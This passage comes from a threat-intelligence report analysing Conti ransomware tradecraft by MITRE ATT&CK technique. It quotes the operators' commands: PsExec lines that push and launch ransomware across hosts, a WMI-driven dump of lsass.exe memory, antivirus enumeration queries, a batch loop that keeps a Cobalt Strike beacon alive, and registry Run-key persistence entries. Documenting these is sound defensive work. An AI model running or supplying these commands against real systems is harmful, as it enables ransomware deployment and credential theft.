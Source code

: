 Another point of interest was mass copying and launching of ransomware using CMD (more on this further down):

| COMMAND                                                                                                                                            | DESCRIPTION                                                                                  |
|----------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------|
| PsExec.exe /accepteula @C:\Intel\cc.txt -u %domain%\ Administrator -p %password% cmd /c COPY"\\%server_name%\Intel\ update.exe" "C:\windows\temp\" | Copying the update.exe file to the Temp directory on all devices in the C:\Intel\cc.txt list |
| PsExec -accepteula -d @C:\Intel\1.txt -u %domain%\ Administrator -p %password% cmd /c \\%ip%\Intel\c.exe -size 30 -m                               | Launching ransomware on all devices in the C:\Intel\1. txt list from a remote server         |

## Scheduled Task/Job: Scheduled Task T1053.005

The operators used several methods for launching payloads (most often Cobalt Strike beacons) using MS Windows Task Scheduler. For the description of these, see: Create or Modify System Process: Windows Service T1543.003 . In addition, the attackers bypassed UAC by creating a service (also described in Abuse Elevation Control Mechanism: Bypass User Account Control T1548.002 ).

## Windows Management Instrumentation T1047

In several attacks, Conti remotely dumped the memory of the lsass.exe process using WMI as follows:

wmic /node:%local\_ip% process call create 'cmd /c rundll32.exe C:\ windows\System32\comsvcs.dll, MiniDump 508 C:\ProgramData\lsass.dmp full'



Moreover, the threat actors obtained the list of security solutions installed on the device:

-  wmic /namespace:\\root\SecurityCenter2 PATH AntiVirusProduct GET /value
-  wmic /namespace:\\root\SecurityCenter2 PATH AntiSpywareProduct GET /value
-  wmic /namespace:\\root\SecurityCenter2 PATH FirewallProduct GET /value



## Persistence

## Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder T1547.001

To achieve persistence, the attackers had a special bat script that ensured persistence for a Cobalt Strike beacon:

```
@ echo off set fullname = C:\Temp\explorers.exe set prog = explorers.exe :begin tasklist /fi 'IMAGENAME eq %prog% ' |>nul find ' %prog% ' ||start '' ' %fullname% ' >nul ping 127.1 -n 6 goto :begin
```

The script ( explorers.bat ), along with an executable file ( explorers.exe ), was downloaded to the infected device, after which the attackers manually added entries to the registry:

-  reg add 'HKEY\_CURRENT\_USER\Software\Microsoft\Windows\ CurrentVersion\Run' /v explorers /t REG\_SZ /d 'C:\Temp\explorers.exe'
-  reg add 'HKEY\_CURRENT\_USER\Software\Microsoft\Windows\ CurrentVersion\Run' /v explorers /t REG\_SZ /d 'C:\Temp\explorers.bat'

Appendix 2 shows the beacon configuration file that was downloaded to the infected device. The launching script and beacon file can also be placed in the C:\intel directory.
